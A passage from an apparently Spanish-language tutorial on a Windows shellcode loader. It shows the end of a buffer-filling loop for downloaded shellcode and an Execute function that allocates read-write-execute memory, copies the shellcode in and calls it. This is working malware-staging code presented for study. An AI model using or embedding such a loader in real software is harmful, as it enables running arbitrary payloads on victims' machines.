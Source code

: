```cpp

		if (bytesRead == 0) break;

		if (payloadSize + bytesRead > capacity) {
			capacity *= 2;
			byte* newPayload = (byte*)realloc(payload, capacity);
			payload = newPayload;
		}

		for (DWORD i = 0; i < bytesRead; i++) {
			payload[payloadSize++] = buffer[i];
		}

	}
	byte* newPayload = (byte*)realloc(payload, payloadSize);
```

Para retornar este shellcode se define una estructura **Shellcode** (previamente definida) y se retorna este valor

```c
struct Shellcode out;
out.data = payload;
out.len = payloadSize;
return out;
```



### Función Execute

Esta función se encarga de crear un espacio de memoria con el tamaño del shellcode con permisos de lectura, escritura y ejecución.

Después se copia a este espacio de memoria el shellcode que obtuvimos de la función **Download().**

Y por último se convierte el shellcode almacenado en la variable que creamos a una function pointer, y se la llama para ejecutar el shellcode.

```c
void Execute(Shellcode shellcode) {
	void* exec = VirtualAlloc(0, shellcode.len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode.data, shellcode.len);
	((void(*)())exec)();
}
```

